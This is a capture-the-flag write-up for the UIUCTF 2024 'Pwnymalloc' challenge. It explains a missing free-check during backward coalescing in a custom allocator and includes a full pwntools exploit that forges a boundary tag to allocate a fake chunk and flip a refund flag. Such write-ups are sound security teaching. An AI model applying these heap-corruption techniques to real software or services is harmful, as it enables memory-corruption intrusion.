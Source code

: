 ```yaml
---
date: '2024-07-08T12:00:00Z'
draft: false
title: 'UIUCTF24 - Pwnymalloc'

categories: ["Writeups"]
tags: ["pwn", "heap", "custom allocator"]
author: "leo_something"
summary: "Pwnymalloc is a nice custom allocator challenge from UIUCTF 2024. The vulnerability was about an incorrect handling of the prev_size during consolitation."
ShowToc: true
---
```


## BINARY OVERVIEW

Pwnymalloc is a custom heap implementation library, the mechanics resemble the actual heap behaviors, but the code is really simple and short, so it must be pwnable! 

We are also provided with a binary that implements a "customer service portal" using Pwnymalloc library.

---
## BINARY REVERSE ENGINEERING

The binary allows a user to:

- Submit a complaint: allocate a chunk, write into it and free it (basically throws our opinion away, thank you!)
- Request a refund: allocate a chunk and write into it (this chunk has a REFUND_APPROVED bit set to 0, and we cannot change it)
- Check refund status: prints the flag if a refund gets somehow approved (REFUND_APPROVED == 1)

Our goal should be to break Pwnymalloc to somehow override the REFUND_APPROVED bit and get the flag, so let's read the library's source code.

---
## LIBRARY REVERSE ENGINEERING

My first hope was to be able to find the vulnerability without having to reverse all the code, which was not so short after all. But, guess what... I ended up reading and trying to understand the whole code :/ 

This took quite a bit of time, but being familiar with the glibc heap implementation it's easy to guess what these functions are doing.

Reading through the code we can identify the 2 most important functions: 

1. **`pwnymalloc(size)`**:
    - Initializes the heap if it’s the first allocation.
    - Aligns the requested size and searches for a fitting block.
    - If no suitable block is found, it extends the heap.
    - Optionally splits larger blocks to minimize waste.
    - Returns a pointer to the allocated memory.
    
2. **`pwnyfree(ptr)`**:
    - Validates the pointer and its alignment.
    - Marks the block as free and attempts to coalesce it with adjacent free blocks.
    - Inserts the coalesced block back into the free list.

A thing that caught my attention here was the "coalescence" feature: it sounded sketchy (and that turned out to be a really lucky guess).

```c
static chunk_ptr coalesce(chunk_ptr block) { 
	chunk_ptr prev_block = prev_chunk(block); 
	chunk_ptr next_block = next_chunk(block); 
	
	size_t size = get_size(block); 
	
	int prev_status = prev_block == NULL ? -1 : get_status(prev_block); 
	int next_status = next_block == NULL ? -1 : get_status(next_block); 
	
	if (prev_status == FREE && next_status == FREE) {
		// ...
}
```

The functions starts by getting the pointers to the previous and next chunk, but how is it done?

```c
static chunk_ptr prev_chunk(chunk_ptr block) {
    if ((void *) block - get_prev_size(block) < heap_start || 
	    get_prev_size(block) == 0) {
        
        return NULL;
    }

    return (chunk_ptr) ((char *) block - get_prev_size(block));
}
```

```c
static size_t get_prev_size(chunk_ptr block) {
    btag_t *prev_footer = (btag_t *) ((char *) block - BTAG_SIZE);
    return prev_footer->size;
}
```

Okay, so the `btag` is the size of a free chunk and it is located in the last WORD of it. Apparently this is used to calculate the pointer to the previous chunk during backward ~~consolidation~~ coalescence, but wait a moment, there is no check to confirm that the previous chunk is free!

We could basically allocate a chunk and write a fake `btag` in its last WORD, in this way if `coalesce` is triggered on the chunk after it `prev_chunk` would calcolate and return an arbitrary pointer!

---
## EXPLOITATION

At this point the exploitation path was really clear to me:
1. Allocate a chunk containing a fake chunk (it's pointer will be calculated by `prev_chunk` using a fake `btag`). 
2. Allocate another chunk and place a forged `btag` in its last WORD, calculating the right offset from the fake chunk.
3. Allocate a chunk and free it to trigger the `coalesce` mechanism and get the fake chunk into the "bin".
4. Finally allocate the fake chunk and override the REFUND_APPROVED bit and get the flag!

#### Problems I faced

Obviously the exploit didn't work first try, the main problems I faced are the following:
- the fake chunk must be aligned at 16 bytes,
- the fake chunk's `fd` and `bk` (pointers to next and previous free chunks) must be set to 0 to avoid further pain,
- the fake chunk must be set to FREE so the metadata must be calculated with the following formula: `size | status`.

#### Final Exploit

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./chal")

context.binary = exe
context.terminal = ["alacritty", "-e"]

def conn():
    if args.GDB:
        r = gdb.debug([exe.path], gdbscript="b *pwnymalloc+210")
    elif args.REMOTE:
        r = remote("pwnymalloc.chal.uiuc.tf", 1337, ssl=True)
    else:
        r = process([exe.path])
    return r

r = conn()

def refund(amount, payload):
    r.sendlineafter(b">", b"3")
    r.sendlineafter(b":", str(amount).encode())
    r.sendafter(b":", payload)

def complaint(text): 
    r.sendlineafter(b">", b"1")
    r.sendlineafter(b":", text.encode())

def main():

    progress = log.progress("cooking")

    # build fake chunk
    fake_chunk_metadata = flat(0, 0xa0)
    payload = b"a"*0x28 + fake_chunk_metadata + b"\x00"*71
    refund(12, payload)

    # allocate a chunk with a forged btag
    btag = 0xe0
    payload = b"\x00"*0x78 + p32(btag) + b"\x00"*3
    refund(12, payload)

    # allocate and free
    complaint("hello")

    # override REFUND_APPROVED bit of complaint
    REFUND_APPROVED = 1
    payload = b"a"*0x40 + p64(0x91) + p32(REFUND_APPROVED) + p32(12) + b"\x00"*0x2f
    refund(12, payload)

    # check status to get the flag!
    r.sendlineafter(b">", b"4")
    r.sendlineafter(b":", b"1")

    progress.success()

    r.interactive()

if __name__ == "__main__":
    main()
```

**FLAG**: uiuctf{the_memory_train_went_off_the_tracks}

#### Post Scriptum 
I realized that if the first thing you do after running the binary is submitting a complaint the program would SIGSEGV. That's because `pwnyfree` always calls `coalesce` and in turn `coalesce` tries to get the previous chunk's `btag`. The thing is that the complaint is the first heap allocation, there is no previous chunk, so the program tries to get the contents of the WORD right before the start of the heap (which is not in mapped memory).

I learned a really good lesson here: **always try the binary before reading the code!**